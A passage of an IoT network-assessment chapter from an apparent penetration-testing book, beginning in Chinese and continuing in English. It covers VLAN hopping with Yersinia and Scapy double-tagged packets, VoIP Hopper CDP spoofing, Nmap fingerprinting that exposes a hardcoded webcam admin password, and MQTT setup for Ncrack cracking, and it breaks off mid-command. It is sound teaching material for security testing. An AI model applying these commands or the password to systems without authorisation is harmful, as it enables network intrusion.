





# 网络评估


评估物联网系统中服务的安全性有时可能是具有挑战性的，因为这些系统通常使用很少有安全工具支持的新协议，甚至可能没有支持的工具。因此，我们需要了解我们*能*使用哪些工具，以及我们是否可以扩展这些工具的能力。

在本章中，我们首先解释如何绕过网络分段并渗透到隔离的物联网网络。接下来，我们展示如何使用 Nmap 识别物联网设备并指纹定制的网络服务。然后，我们攻击*消息队列遥测传输（MQTT）*，这是一种常见的物联网网络协议。通过这样做，你将学会如何在 Ncrack 的帮助下编写定制的密码认证破解模块。

## 进入物联网网络

大多数组织通过引入网络分段和隔离策略来提高其网络的安全性。这些策略将安全要求较低的资产（例如访客网络中的设备）与组织基础设施的关键组件（如位于数据中心的 Web 服务器和员工电话使用的语音网络）分开。关键组件还可能包括物联网网络。例如，公司可能使用安全摄像头和访问控制单元，如远程控制门锁。为了隔离网络，公司通常会安装周界防火墙或能够将网络划分为不同区域的交换机和路由器。

划分网络的一种常见方法是通过*VLANs*，它们是更大、共享物理网络的逻辑子集。设备必须位于同一 VLAN 中才能进行通信。任何连接到属于不同 VLAN 的设备的连接必须通过第三层交换机，这是一种结合了交换机和路由器功能的设备，或者仅通过路由器，然后可以施加 ACL。ACL 通过使用高级规则集选择性地接纳或拒绝传入的数据包，从而提供精细的网络流量控制。

但是，如果公司不安全地配置这些 VLAN 或使用不安全的协议，攻击者可能通过执行 VLAN 跳跃攻击来绕过这些限制。在本节中，我们将演示这种攻击，以访问组织保护的物联网网络。

### VLAN 和网络交换机

要对 VLAN 进行攻击，你需要了解网络交换机的工作原理。在交换机上，每个端口要么被配置为*接入端口*，要么为*干线端口*（一些供应商也称之为*标记端口*），如图 4-1 所示。



图 4-1：为访客和物联网设备分隔的常见网络架构

当设备（如 IP 摄像头）连接到访问端口时，网络会假设它传输的数据包属于某个特定的 VLAN。另一方面，当设备连接到中继端口时，它会建立一个 VLAN *中继链路*，这种连接允许任何 VLAN 的数据包通过。我们主要使用中继链路来连接多个交换机和路由器。

为了识别中继链路中属于每个 VLAN 的流量，交换机使用一种名为 *VLAN 标记* 的标识方法。它通过一个标签标记穿越中继链路的数据包，该标签对应于它们访问端口的 VLAN ID。当数据包到达目标交换机时，交换机会去除标签并利用它将数据包传输到正确的访问端口。网络可以使用几种协议来执行 VLAN 标记，例如互联交换链路（ISL）、局域网仿真（LANE）、IEEE 802.1Q 和 802.10（FDDI）。

### 交换机欺骗

许多网络交换机通过一种名为 *动态中继协议（DTP）* 的 Cisco 专有网络协议动态地建立 VLAN 中继链路。DTP 允许两台连接的交换机创建中继链路，然后协商 VLAN 标记方法。

在 *交换机欺骗攻击* 中，攻击者通过假装自己的设备是网络交换机，利用该协议欺骗合法交换机与其建立中继链路（图 4-2）。因此，攻击者可以访问来自受害交换机任何 VLAN 的数据包。



图 4-2：交换机欺骗攻击

让我们尝试这个攻击。我们将使用开源工具 Yersinia ([`github.com/tomac/yersinia/`](https://github.com/tomac/yersinia/)) 发送类似于网络上实际交换机的数据包的 DTP 数据包。Yersinia 已经预安装在 Kali Linux 中，但如果你使用的是最新的 Kali 版本，你需要先安装 `kali-linux-large` 元包。可以通过在终端中执行以下命令来安装：

```
$ **sudo apt install kali-linux-large**
```

我们一般建议使用上述方法，而不是手动编译工具，因为我们已经发现最新 Kali 版本中的一些工具编译存在问题。

另外，你也可以尝试使用以下命令编译 Yersinia：

```
# apt-get install libnet1-dev libgtk2.0-dev libpcap-dev
# tar xvfz yersinia-0.8.2.tar.gz && cd yersinia-0.8.2 && ./autogen.sh
# ./configure
# make && make install
```

要与攻击者设备建立中继链路，请打开 Yersinia 的图形用户界面：

```
# yersinia -G
```

在界面中，点击 **启动攻击**。然后，在 **DTP** 标签页中，选择 **启用中继** 选项，如 图 4-3 所示。



图 4-3：Yersinia DTP 标签

当选择此选项时，Yersinia 应该模仿支持 DTP 协议的交换机，连接到受害交换机的端口，并反复发送建立中继链路所需的 DTP 数据包。如果只想发送一个原始的 DTP 数据包，请选择第一个选项。

一旦在 DTP 标签中启用干道传输，您应该能够在 802.1Q 标签中看到来自可用 VLAN 的数据，如图 4-4 所示。



图 4-4：Yersinia 802.1Q 标签

数据还包括可用的 VLAN ID。要访问 VLAN 数据包，首先使用 `nmcli` 命令识别您的网络接口，Kali Linux 中预安装了此命令：

```
# nmcli 
eth1: connected to Wired connection 1
        "Realtek RTL8153"
        ethernet (r8152), 48:65:EE:16:74:F9, hw, mtu 1500
```

在本示例中，攻击者的笔记本具有 `eth1` 网络接口。在 Linux 终端中输入以下命令：

```
# modprobe 8021q
# vconfig add eth1 20
# ifconfig eth1.20 192.168.1.2 netmask 255.255.255.0 up
```

首先，我们使用 `modprobe` 命令加载 VLAN 标签方法的内核模块，Kali Linux 中预安装了该命令。然后，我们使用 `vconfig` 命令创建一个具有所需 VLAN ID 的新接口，接着使用 `add` 参数，指定我们的网络接口名称和 VLAN 标识符。`vconfig` 命令在 Kali Linux 中预安装，在其他 Linux 发行版中，它包含在 `vlan` 包中。在本示例中，我们将指定用于 IoT 网络的 VLAN 20 ID，并将其分配给攻击者笔记本上的网络适配器。您还可以使用 `ifconfig` 命令选择 IPv4 地址。

### 双标签攻击

如前所述，访问端口发送和接收的包没有 VLAN 标签，因为这些包被认为属于特定的 VLAN。另一方面，干道端口发送和接收的包应当标记上 VLAN 标签。这允许来自任何访问端口的包，即使是属于不同 VLAN 的包，也能够通过。但根据所使用的 VLAN 标签协议，仍然存在某些例外。例如，在 IEEE 802.1Q 协议中，如果一个包到达干道端口且没有 VLAN 标签，交换机将自动将此包转发到一个预定义的 VLAN，称为 *本地 VLAN*。通常，这个包的 VLAN ID 为 1。

如果本地 VLAN 的 ID 属于交换机的某个访问端口，或者如果对手在交换机欺骗攻击中获得了它，攻击者可能会执行双标签攻击，如图 4-5 所示。



图 4-5：双标签攻击

当穿越干道链路的包到达目标交换机的干道端口时，目标端口会移除其 VLAN 标签，然后使用该标签将包转发到正确的自定义数据包。您可以添加两个 VLAN 标签，并欺骗交换机仅移除外部标签。如果是本地 VLAN 标签，交换机将把带有内部标签的包转发到其干道链路，朝第二个交换机方向传输。当包到达目标交换机的干道端口时，交换机会使用内部标签将包转发到适当的访问端口。您可以使用此方法将数据包发送到本来无法访问的设备，如 IoT 设备监控服务器，如图 4-5 所示。

要执行该攻击，外部 VLAN 标签必须识别对手自己的 VLAN，并且该 VLAN 必须是已建立的 trunk 链接的本地 VLAN，而内部标签则必须识别目标 IoT 设备所属的 VLAN。我们可以使用 *Scapy*``框架 ([`scapy.net/`](https://scapy.net/))，这是一个用 Python 编写的强大数据包操作程序，来伪造一个包含这两个 VLAN 标签的数据包。你可以通过 Python 的 `pip` 包管理器来安装 Scapy。``

````` ``` # pip install scapy ```    The following Python code sends an ICMP packet to a targeted device with the IPv4 address 192.168.1.10 located in VLAN 20\. We tag the ICMP packet with two VLAN IDs: 1 and 20.    ``` from scapy.all import * packet = Ether()/Dot1Q(vlan=1)/Dot1Q(vlan=20)/IP(dst='192.168.1.10')/ICMP() sendp(packet) ```    The `Ether()` function creates an auto-generated link layer. We then make the two VLAN tags using the `Dot1Q()` function. The `IP()` function defines a custom network layer to route the packet to the victim’s device. Finally, we add an auto-generated payload containing the transport layer that we want to use (in our case, ICMP). The ICMP response will never reach the adversary’s device, but we can verify that the attack succeeded by observing the network packets in the victim’s VLAN using Wireshark. We’ll discuss using Wireshark in detail in Chapter 5.    ### Imitating VoIP Devices    Most corporate networking environments contain VLANs for their voice networks. Although intended for use by the employees’ Voice over Internet Protocol (VoIP) phones, modern VoIP devices are increasingly integrated with IoT devices. Many employees can now unlock doors using a special phone number, control the room’s thermostat, watch a live feed from security cameras on the VoIP device’s screen, receive voice messages as emails, and get notifications from the corporate calendar to their VoIP phones. In these cases, the VoIP network looks something like the one shown in Figure 4-6.      Figure 4-6: A VoIP device connected to an IoT network      If the VoIP phones can connect to the corporate IoT network, attackers can imitate VoIP devices to gain access to this network, too. To perform this attack, we’ll use an open source tool called VoIP Hopper ([`voiphopper.sourceforge.net/`](http://voiphopper.sourceforge.net/)). VoIP Hopper mimics the behavior of a VoIP phone in Cisco, Avaya, Nortel, and Alcatel-Lucent environments. It automatically discovers the correct VLAN ID for the voice network using one of the device discovery protocols it supports, such as the Cisco Discovery Protocol (CDP), the Dynamic Host Configuration Protocol (DHCP), Link Layer Discovery Protocol Media Endpoint Discovery (LLDP-MED), and 802.1Q ARP. We won’t further investigate how these protocols work, because their inner workings aren’t relevant to the attack.    VoIP Hopper is preinstalled in Kali Linux. If you’re not using Kali, you can manually download and install the tool from the vendor’s site using the following commands:    ``` # tar xvfz voiphopper-2.04.tar.gz && cd voiphopper-2.04 # ./configure # make && make install ```    Now we’ll use VoIP Hopper to imitate Cisco’s CDP protocol. CDP allows Cisco devices to discover other Cisco devices nearby, even if they’re using different network layer protocols. In this example, we imitate a connected Cisco VoIP device and assign it to the correct VLAN that gives us further access to the corporate voice network:    ``` # voiphopper -i eth1  -E 'SEP001EEEEEEEEE ' -c 2 VoIP Hopper 2.04 Running in CDP Spoof mode Sending 1st CDP Spoofed packet on eth1 with CDP packet data: Device ID: SEP001EEEEEEEEE;    Port ID: Port 1;    Software: SCCP70.8-3-3SR2S Platform: Cisco IP Phone 7971;    Capabilities: Host;    Duplex: 1 Made CDP packet of 125 bytes - Sent CDP packet of 125 bytes Discovered VoIP VLAN through CDP: 40 Sending 2nd CDP Spoofed packet on eth1 with CDP packet data: Device ID: SEP001EEEEEEEEE;    Port ID: Port 1;    Software: SCCP70.8-3-3SR2S Platform: Cisco IP Phone 7971;    Capabilities: Host;    Duplex: 1 Made CDP packet of 125 bytes - Sent CDP packet of 125 bytes Added VLAN 20 to Interface eth1 Current MAC:  00:1e:1e:1e:1e:90  VoIP Hopper will sleep and then send CDP Packets Attempting dhcp request for new interface eth1.20 VoIP Hopper dhcp client:  received IP address for eth1.20: 10.100.10.0 ```    VoIP Hopper supports three CDP modes. The *sniff* mode inspects the network packets and attempts to locate the VLAN ID. To use it, set the `-c` parameter to `0`. The *spoof* mode generates *custom* packets similar to the ones a real VoIP device would transmit in the corporate network. To use it, set the `-c` parameter to `1`. The *spoof with a pre-made**packet* mode sends the same packets as a Cisco 7971G-GE IP phone. To use it, set the `-c` parameter to `2`.    We use the last method because it’s the fastest approach. The `-i` parameter specifies the attacker’s network interface, and the `-E` parameter specifies the name of the VOIP device being imitated. We chose the name SEP001EEEEEEEEE, which is compatible with the Cisco naming format for VoIP phones. The format consists of the word “SEP” followed by a MAC address. In corporate environments, you can imitate an existing VoIP device by looking at the MAC label on the back of the phone; by pressing the Settings button and selecting the Model Information option on the phone’s display screen; or by attaching the VoIP device’s Ethernet cable to your laptop and observing the device’s CDP requests using Wireshark.    If the tool executes successfully, the VLAN network will assign an IPv4 address to the attacker’s device. To confirm that the attack worked, you could observe the DHCP response to this in Wireshark (Figure 4-7). We’ll discuss using Wireshark in detail in Chapter 5.      Figure 4-7: The Wireshark traffic dump of the DHCP frame in the voice network (Voice VLAN)      Now we can identify the IoT devices located in this specific IoT network.    ## Identifying IoT Devices on the Network    One of the challenges you’ll face when attempting to identify IoT devices on a network is that they often share technology stacks. For example, *BusyBox*, a popular executable in IoT devices, typically runs the same network services on all devices. This makes it difficult to identify a device based on its services.    That means we need to go deeper. We have to craft a specific request in the hopes of generating a response from the target that uniquely identifies the device.    ### Uncovering Passwords by Fingerprinting Services    This section walks you through an excellent example of how sometimes you can go from detecting an unknown service to finding a hardcoded backdoor that you can abuse. We’ll target an IP webcam.    Of all available tools, Nmap has the most complete database for service fingerprinting. Nmap is available by default in security-oriented Linux distributions like Kali, but you can grab its source code or precompiled binaries for all major operating systems, including Linux, Windows, and macOS, at [`nmap.org/`](https://nmap.org/). It uses the *nmap-service-probes* file, located in the root folder of your Nmap installation, to store thousands of signatures for all kinds of services. These signatures consist of probes, data often sent, and sometimes hundreds of lines that match known responses to particular services.    When attempting to identify a device and the services it runs, the very first Nmap command you should try is a scan with service (`-sV`) and operating system detection (`-O`) enabled:    ``` # nmap -sV -O <target> ```    This scan will usually be enough to identify the underlying operating system and main services, including their versions.    But although this information is valuable by itself, it’s even more useful to conduct a scan that increases version intensity to the maximum level using the `--version-all```or `--version-intensity 9` arguments. Increasing version intensity forces Nmap to ignore the *rarity level* (a number indicating how common the service is according to Nmap’s research) and port selection and launch all the probes in the service fingerprint database for any service that it detects.``    When we ran a full port scan (`-p-`) against an IP webcam with version detection enabled and the intensity increased to the maximum, the scan uncovered a new service running on higher ports that previous scans hadn’t uncovered:    ``` # nmap -sV --version-all -p- <target> Host is up (0.038s latency). Not shown: 65530 closed ports PORT      STATE SERVICE VERSION 21/tcp    open  ftp     OpenBSD ftpd 6.4 (Linux port 0.17) 80/tcp    open  http    Boa HTTPd 0.94.14rc21 554/tcp   open  rtsp    Vivotek FD8134V webcam rtspd 8080/tcp  open  http    Boa HTTPd 0.94.14rc21 42991/tcp open  unknown 1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at [`nmap.org/cgi-bin/submit.cgi?new-service`](https://nmap.org/cgi-bin/submit.cgi?new-service) : SF-Port42991-TCP:V=7.70SVN%I=7%D=8/12%Time=5D51D3D7%P=x86_64-unknown-linux SF:-gnu%r(GenericLines,3F3,"HTTP/1\.1\x20200\x20OK\r\nContent-Length:\x209 SF:22\x20\r\nContent-Type:\x20text/xml\r\nConnection:\x20Keep-Alive\r\n\r\ SF:n<\?xml\x20version=\"1\.0\"\?>\n<root\x20xmlns=\"urn:schemas-upnp-org:d SF:evice-1-0\">\n<specVersion>\n<major>1</major>\n<minor>0</minor>\n</spec SF:Version>\n<device>\n<deviceType>urn:schemas-upnp-org:device:Basic:1</de SF:viceType>\n<friendlyName>FE8182\(10\.10\.10\.6\)</friendlyName>\n<manuf SF:acturer>VIVOTEK\x20INC\.</manufacturer>\n<manufacturerURL>http://www\.v SF:ivotek\.com/</manufacturerURL>\n<modelDescription>Mega-Pixel\x20Network SF:\x20Camera</modelDescription>\n<modelName>FE8182</modelName>\n<modelNum SF:ber>FE8182</modelNumber>\n<UDN>uuid:64f5f13e-eb42-9c15-ebcf-292306c172b SF:6</UDN>\n<serviceList>\n<service>\n<serviceType>urn:Vivotek:service:Bas SF:icService:1</serviceType>\n<serviceId>urn:Vivotek:serviceId:BasicServic SF:eId</serviceId>\n<controlURL>/upnp/control/BasicServiceId</controlURL>\ SF:n<eventSubURL>/upnp/event/BasicServiceId</eventSubURL>\n<SCPDURL>/scpd_ SF:basic\.xml</"); Service Info: Host: Network-Camera; OS: Linux; Device: webcam; CPE: cpe:/o:linux:linux_kernel,  cpe:/h:vivotek:fd8134v ```    Note that, depending on the number of running services, this scan might be very noisy and time-consuming. Poorly written software might also crash, because it will receive thousands of unexpected requests. Look at the Twitter hashtag #KilledByNmap to glance at the variety of devices that crash when scanned.    Excellent, we’ve discovered a new service on port 42991\. But even Nmap’s service detection engine with thousands of signatures didn’t recognize it, because it marked the service as `unknown` in the service column. But the service did return data. Nmap even suggests we submit the signature to improve its database (which we suggest you always do).    If we pay closer attention to the partial response Nmap is showing, we can recognize an XML file containing device information, such as a configured name, a model name and number, and services. This response looks interesting, because the service is running on a high, uncommon port:    ``` SF-Port42991-TCP:V=7.70SVN%I=7%D=8/12%Time=5D51D3D7%P=x86_64-unknown-linux SF:-gnu%r(GenericLines,3F3,"HTTP/1\.1\x20200\x20OK\r\nContent-Length:\x209 SF:22\x20\r\nContent-Type:\x20text/xml\r\nConnection:\x20Keep-Alive\r\n\r\ SF:n<\?xml\x20version=\"1\.0\"\?>\n<root\x20xmlns=\"urn:schemas-upnp-org:d SF:evice-1-0\">\n<specVersion>\n<major>1</major>\n<minor>0</minor>\n</spec SF:Version>\n<device>\n<deviceType>urn:schemas-upnp-org:device:Basic:1</de SF:viceType>\n<friendlyName>FE8182\(10\.10\.10\.6\)</friendlyName>\n<manuf SF:acturer>VIVOTEK\x20INC\.</manufacturer>\n<manufacturerURL>http://www\.v SF:ivotek\.com/</manufacturerURL>\n<modelDescription>Mega-Pixel\x20Network SF:\x20Camera</modelDescription>\n<modelName>FE8182</modelName>\n<modelNum SF:ber>FE8182</modelNumber>\n<UDN>uuid:64f5f13e-eb42-9c15-ebcf-292306c172b SF:6</UDN>\n<serviceList>\n<service>\n<serviceType>urn:Vivotek:service:Bas SF:icService:1</serviceType>\n<serviceId>urn:Vivotek:serviceId:BasicServic SF:eId</serviceId>\n<controlURL>/upnp/control/BasicServiceId</controlURL>\ SF:n<eventSubURL>/upnp/event/BasicServiceId</eventSubURL>\n<SCPDURL>/scpd_ SF:basic\.xml</"); ```    To try generating a response from the device to identify it, we might send random data to the service. But if we do this with `ncat`, the connection simply closes:    ``` # ncat 10.10.10.6 42991 eaeaeaea eaeaeaea Ncat: Broken pipe. ```    If we can’t send data to that port, why did the service return data when we scanned it earlier? Let’s check the Nmap signature file to see what data Nmap sent. The signature includes the name of the probe that generated the response—in this case, GenericLines. We can view this probe using the following command:    ``` # cat /usr/local/share/nmap/nmap-service-probes | grep GenericLines Probe TCP GenericLines 1q|\r\n\r\n| ```    Inside the *nmap-service-probes* file, we can find the name of this probe, followed by the data sent to the device delimited by `q|``<data>``|`1. The data shows that the GenericLines probe sends two carriage returns and new lines.    Let’s send this directly to the scanned device to get the full response that Nmap shows:    ``` # echo -ne "\r\n\r\n" | ncat 10.10.10.6 42991 HTTP/1.1 200 OK Content-Length: 922  Content-Type: text/xml Connection: Keep-Alive  <?xml version="1.0"?> <root > <specVersion> <major>1</major> <minor>0</minor> </specVersion> <device> <deviceType>urn:schemas-upnp-org:device:Basic:1</deviceType> <friendlyName>FE8182(10.10.10.6)</friendlyName> <manufacturer>VIVOTEK INC.</manufacturer> <manufacturerURL>http://www.vivotek.com/</manufacturerURL> <modelDescription>Mega-Pixel Network Camera</modelDescription> <modelName>FE8182</modelName> <modelNumber>FE8182</modelNumber> <UDN>uuid:64f5f13e-eb42-9c15-ebcf-292306c172b6</UDN> <serviceList> <service> <serviceType>urn:Vivotek:service:BasicService:1</serviceType> <serviceId>urn:Vivotek:serviceId:BasicServiceId</serviceId> <controlURL>/upnp/control/BasicServiceId</controlURL> <eventSubURL>/upnp/event/BasicServiceId</eventSubURL> <SCPDURL>/scpd_basic.xml</SCPDURL> </service> </serviceList> <presentationURL>http://10.10.10.6:80/</presentationURL> </device> </root> ```    The service responds with a lot of useful information, including the device name, model name, model number, and services running inside the device. An attacker could use this information to accurately fingerprint the IP web camera’s model and firmware version.    But we can go further. Let’s use the model name and number to grab the device firmware from the manufacturer’s website and figure out how it generates this XML file. (Detailed instructions for getting a device’s firmware are in Chapter 9.) Once we have the firmware, we extract the filesystem inside the firmware with help from `binwalk`:    ``` $ **binwalk -e <firmware>** ```    When we ran this command for the IP webcam firmware, we came across an unencrypted firmware that we could analyze. The filesystem is in the *Squashfs* format, a read-only filesystem for Linux commonly found in IoT devices.    We searched the firmware for the strings inside the XML response we saw earlier and found them inside the `check_fwmode` binary:    ``` $ **grep -iR "modelName"** ./usr/bin/update_backup:    MODEL=$(confclient -g system_info_extendedmodelname -p 9 -t Value) ./usr/bin/update_backup:    BACK_EXTMODEL_NAME=`${XMLPARSER} -x /root/system/info/extendedmodelname -f ${BACKUP_SYSTEMINFO_FILE}` ./usr/bin/update_backup:    CURRENT_EXTMODEL_NAME=`${XMLPARSER} -x /root/system/info/extendedmodelname -f ${SYSTEMINFO_FILE}` ./usr/bin/update_firmpkg:getSysparamModelName() ./usr/bin/update_firmpkg:   sysparamModelName=`sysparam get pid` ./usr/bin/update_firmpkg:   getSysparamModelName ./usr/bin/update_firmpkg:   bSupport=`awk -v modelName="$sysparamModelName" 'BEGIN{bFlag=0}{if((match($0, modelName)) && (length($1) == length(modelName))){bFlag=1}}END{print bFlag}' $RELEASE_LIST_FILE` ./usr/bin/update_lens:         SYSTEM_MODEL=$(confclient -g system_info_modelname -p 99 -t Value) ./usr/bin/update_lens:              MODEL_NAME=`tinyxmlparser -x /root/system/info/modelname -f /etc/conf.d/config_systeminfo.xml` ./usr/bin/check_fwmode:    sed -i1 "s,<modelname>.*</modelname>,<modelname>${1}</modelname>,g" $SYSTEMINFO_FILE ./usr/bin/check_fwmode:    sed -i "s,<extendedmodelname>.*</extendedmodelname>,<extendedmodelname>${1}</extendedmodelname>,g" $SYSTEMINFO_FILE ```    The file `check_fwmode`1, contains our desired string and inside we also found a hidden gem: an `eval()` call that includes the variable `QUERY_STRING` containing a hardcoded password:    ``` eval `REQUEST_METHOD='GET' SCRIPT_NAME='getserviceid.cgi' QUERY_STRING='passwd=0ee2cb110a9148cc5a67f13d62ab64ae30783031' /usr/share/www/cgi-bin/admin/serviceid.cgi | grep serviceid` ```    We could use this password to invoke the administrative CGI script `getserviceid.cgi` or other scripts that use the same hardcoded password.    ### Writing New Nmap Service Probes    As we’ve seen, Nmap’s version detection is very powerful, and its database of service probes is quite sizeable because it’s composed of submissions from users all over the world. Most of the time, Nmap recognizes the service correctly, but what can we do when it doesn’t, such as in our previous webcam example?    Nmap’s service fingerprint format is simple, allowing us to quickly write new signatures to detect new services. Sometimes the service includes additional information about the device. For example, an antivirus service, such as ClamAV, might return the date on which the signatures were updated, or a network service might include the build number in addition to its version. In this section, we’ll write a new signature for the IP web camera’s service running on port 42991 we discovered in the preceding section.    Each line of the probe must contain at least one of the directives shown in Table 4-1.      Table 4-1: Nmap Service Probe Directives       | **Directive** | **Description** | | --- | --- | | `Exclude` | Ports to exclude from probing | | `Probe` | Line that defines the protocol, name, and data to send | | `match` | Response to match and identify a service  | | `softmatch` | Similar to the match directive, but it allows the scan to continue to match additional lines | | `ports` and `sslports` | Ports that define when to execute the probe | | `totalwaitms` | Timeout to wait for the probe’s response | | `tcpwrappedms` | Only used for NULL probe to identify tcpwrapped services | | `rarity` | Describes how common a service is | | `fallback` | Defines which probes to use as fallbacks if there are no matches |    As an example, let’s look at the `NULL` probe, which performs simple banner grabbing: when you use it, Nmap won’t send any data; it will just connect to the port, listen to the response, and try to match the line with a known response from an application or service.    ``` # This is the NULL probe that compares any banners given to us  Probe TCP NULL q|| # Wait for at least 5 seconds for data.  Otherwise an Nmap default is used. totalwaitms 5000   # Windows 2003 match ftp m/²²⁰[ -]Microsoft FTP Service\r\n/ p/Microsoft ftpd/ match ftp m/²²⁰ ProFTPD (\d\S+) Server/ p/ProFTPD/ v/$1/  softmatch ftp m/²²⁰ [-.\w ]+ftp.*\r\n$/i ```    A probe can have multiple `match` and `softmatch` lines to detect services that respond to the same request data. For the simplest service fingerprints, such as the `NULL` probe, we only need the following directives: `Probe`, `rarity`, `ports`, and `match`.    For example, to add a signature that correctly detects the rare service running on the webcam, add the following lines to *nmap-service-probes* in your local Nmap root directory. It will load automatically along with Nmap, so there’s no need to recompile the tool:    ``` Probe TCP WEBCAM q|\r\n\r\n| rarity 3 ports 42991 match networkcaminfo m|<modelDescription>Mega-Pixel| p/Mega-Pixel Network Camera/ ```    Note that we can use special delimiters to set additional information about a service. For instance, `p/``<product name>``/` sets the product name. Nmap can populate other fields, such as `i/<extra info>/` for additional information or `v/<additional version info>/` for version numbers. It can use regular expressions to extract data from the response. When we scan the webcam again, Nmap yields the following results against our previously unknown service:    ``` # nmap -sV --version-all -p- <target> Host is up (0.038s latency). Not shown: 65530 closed ports PORT      STATE SERVICE VERSION 21/tcp    open  ftp            OpenBSD ftpd 6.4 (Linux port 0.17) 80/tcp    open  http           Boa HTTPd 0.94.14rc21 554/tcp   open  rtsp           Vivotek FD8134V webcam rtspd 8080/tcp  open  http           Boa HTTPd 0.94.14rc21 42991/tcp open  networkcaminfo Mega-Pixel Network Camera ```    If we want to include other information in Nmap’s output, such as the model number or the Universally Unique Identifier (UUID), we’d simply need to extract it using regular expressions. Numbered variables ($1, $2, $3, and so on) will be available to populate the information fields. You can see how regular expressions and numbered variables are used in the following `match` line for ProFTPD, a popular open source file transfer service, where the version information (`v/$1/`) is extracted from the banner using the regular expression (`\d\S+`):    ``` match ftp m/²²⁰ ProFTPD (\d\S+) Server/ p/ProFTPD/ v/$1/ ```    You’ll find more information about other available fields in the official Nmap documentation at [`nmap.org/book/vscan-fileformat.html`](https://nmap.org/book/vscan-fileformat.html)*.*    ## Attacking MQTT    MQTT is a machine-to-machine connectivity protocol. It’s used in sensors over satellite links, dial-up connections with health-care providers, home automation, and small devices that require low power usage. It works on top of the TCP/IP stack but is extremely lightweight, because it minimizes messaging using a *publish-subscribe architecture*.    The publish-subscribe architecture is a messaging pattern in which the senders of messages, called *publishers*, sort messages into categories, called *topics*.The *subscribers*, the recipients of the messages, receive only those messages that belong to the topics to which they’ve subscribed. The architecture then uses intermediary servers, called *brokers*, to route all messages from publishers to subscribers. Figure 4-8 shows the publish-subscribe model that MQTT uses.      Figure 4-8: MQTT’s publish-subscribe architecture      One of the main problems with MQTT is that authentication is optional, and even if it’s used, it’s unencrypted by default. When credentials are transmitted in cleartext, attackers with a man-in-the-middle position on the network can steal them. In Figure 4-9, you can see that the *CONNECT* packet, sent by an MQTT client to authenticate to a broker, stores the username and password as cleartext.      Figure 4-9: The Wireshark traffic dump of an MQTT *CONNECT* packet contains the username and password transmitted as cleartext.      Because MQTT has a simple structure and brokers don’t typically limit the number of authentication attempts per client, it’s the ideal IoT network protocol to use to demonstrate authentication cracking. In this section, we’ll create an MQTT module for *Ncrack*, Nmap’s network authentication cracking tool.    ### Setting Up a Test Environment    First, we need to select a representative MQTT broker and set up a test environment. We’ll use the Eclipse Mosquitto software ([`mosquitto.org/download/`](https://mosquitto.org/download/)), which is open source and cross platform. You can directly install the Mosquitto server and client on Kali Linux by issuing the following command as root:    ``` root@kali:~# apt-get install mosquitto mosquitto-clients ```    Once installed, the broker starts listening on TCP port 1833 on all network interfaces, including the localhost. If needed, you can also start it manually by entering:    ``` root@kali:~# /etc/init.d/mosquitto start ```    To test that it’s working, use `mosquito_sub` to subscribe to a topic:    ``` root@kali:~# mosquitto_sub -t 'test/topic' -v ```    Then, in another terminal session, publish a test message by entering:    ``` root@kali:~# mosquitto_pub -t 'test/topic' -m 'test message' ```    On the subscriber’s terminal (the one from which you ran `mosquitto_sub`), you should see `test message` displayed in the `test/topic` category.    After verifying that our Mosquitto MQTT environment works and terminating previous terminal sessions, we’ll configure mandatory authentication. We first create a password file for a `test` user:    ``` root@kali:~# 